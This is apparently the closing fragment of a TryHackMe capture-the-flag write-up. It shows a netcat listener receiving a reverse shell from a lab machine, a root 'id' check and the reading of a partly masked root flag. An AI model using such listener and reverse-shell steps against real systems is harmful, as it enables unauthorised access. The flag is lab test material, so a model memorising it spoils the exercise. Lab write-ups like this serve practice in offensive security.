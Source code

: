 ```bash
nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.120.176] 56724
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat root.txt
THM{f963aaa6a430********}

```

MACHINE PWNED!!!!!

